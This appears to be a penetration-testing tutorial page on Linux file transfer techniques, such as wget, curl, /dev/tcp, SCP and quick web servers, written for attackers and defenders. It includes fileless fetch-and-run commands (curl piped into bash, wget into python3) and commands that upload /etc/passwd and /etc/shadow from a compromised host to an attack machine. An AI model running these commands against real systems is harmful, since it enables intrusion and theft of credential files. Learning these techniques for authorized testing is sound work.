 # Linux File Transfer Methods

Linux is a versatile operating system, which commonly has many different tools we can use to perform file transfers. Understanding file transfer methods in Linux can help attackers and defenders improve their skills to attack networks and prevent sophisticated attacks.

A few years ago, we were contacted to perform incident response on some web servers. We found multiple threat actors in six out of the nine web servers we investigated. The threat actor found a SQL Injection vulnerability. They used a Bash script that, when executed, attempted to download another piece of malware that connected to the threat actor's command and control server.

The Bash script they used tried three download methods to get the other piece of malware that connected to the command and control server. Its first attempt was to use cURL. If that failed, it attempted to use wget, and if that failed, it used Python. All three methods use HTTP to communicate.

Although Linux can communicate via FTP, SMB like Windows, most malware on all different operating systems uses HTTP and HTTPS for communication.

This section will review multiple ways to transfer files on Linux, including HTTP, Bash, SSH, etc


## Web Downloads with Wget and cURL

Two of the most common utilities in Linux distributions to interact with web applications are wget and curl. These tools are installed on many Linux distributions.

To download a file using wget, we need to specify the URL and the option '-O' to set the output filename.

`wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh`

cURL is very similar to wget, but the output filename option is lowercase '-o'.

`curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh`

## Fileless Attacks Using Linux

Because of the way Linux works and how pipes operate, most of the tools we use in Linux can be used to replicate fileless operations, which means that we don't have to download a file to execute it.

Note: Some payloads such as mkfifo write files to disk. Keep in mind that while the execution of the payload may be fileless when you use a pipe, depending on the payload choosen it may create temporary files on the OS.

Let's take the cURL command we used, and instead of downloading LinEnum.sh, let's execute it directly using a pipe.

`curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash`

Similarly, we can download a Python script file from a web server and pipe it into the Python binary. Let's do that, this time using wget.

`wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3`

## Download with Bash (/dev/tcp)

There may also be situations where none of the well-known file transfer tools are available. As long as Bash version 2.04 or greater is installed (compiled with --enable-net-redirections), the built-in /dev/TCP device file can be used for simple file downloads.

### Connect to the Target Webserver

`exec 3<>/dev/tcp/10.10.10.32/80`

### HTTP GET Request

`echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3`

### Print the Response

`cat <&3`

## SSH Downloads

SSH (or Secure Shell) is a protocol that allows secure access to remote computers. SSH implementation comes with an SCP utility for remote file transfer that, by default, uses the SSH protocol.

SCP (secure copy) is a command-line utility that allows you to copy files and directories between two hosts securely. We can copy our files from local to remote servers and from remote servers to our local machine.

SCP is very similar to copy or cp, but instead of providing a local path, we need to specify a username, the remote IP address or DNS name, and the user's credentials.

`scp plaintext@192.168.49.128:/root/myroot.txt .`

Note: You can create a temporary user account for file transfers and avoid using your primary credentials or keys on a remote computer.

## Upload Operations

There are also situations such as binary exploitation and packet capture analysis, where we must upload files from our target machine onto our attack host. The methods we used for downloads will also work for uploads. Let's see how we can upload files in various ways.

## Web Upload

### Start Web Server

`python3 -m pip install --user uploadserver`

Now we need to create a certificate. In this example, we are using a self-signed certificate.

### Create a Self-Signed Certificate

`openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'`

The webserver should not host the certificate. We recommend creating a new directory to host the file for our webserver.

- `mkdir https && cd https`

- `python3 -m uploadserver 443 --server-certificate /root/server.pem`

Now from our compromised machine, let's upload the /etc/passwd and /etc/shadow files.

## Linux - Upload Multiple Files

`curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure`

We used the option --insecure because we used a self-signed certificate that we trust.

## Alternative Web File Transfer Method

Since Linux distributions usually have Python or php installed, starting a web server to transfer files is straightforward. Also, if the server we compromised is a web server, we can move the files we want to transfer to the web server directory and access them from the web page, which means that we are downloading the file from our Pwnbox.

It is possible to stand up a web server using various languages. A compromised Linux machine may not have a web server installed. In such cases, we can use a mini web server. What they perhaps lack in security, they make up for flexibility, as the webroot location and listening ports can quickly be changed.

### Creating a Web Server with Python3

`python3 -m http.server`

### Creating a Web Server with Python2.7

`python2.7 -m SimpleHTTPServer`

### Creating a Web Server with PHP

`php -S 0.0.0.0:8000`

### Creating a Web Server with Ruby

`ruby -run -ehttpd . -p8000`

## Download the File from the Target Machine onto the Pwnbox

`wget 192.168.49.128:8000/filetotransfer.txt`

Note: When we start a new web server using Python or PHP, it's important to consider that inbound traffic may be blocked. We are transferring a file from our target onto our attack host, but we are not uploading the file.


## SCP Upload

We may find some companies that allow the SSH protocol (TCP/22) for outbound connections, and if that's the case, we can use an SSH server with the scp utility to upload files. Let's attempt to upload a file using the SSH protocol.

`scp /etc/passwd plaintext@192.168.49.128:/home/plaintext/`

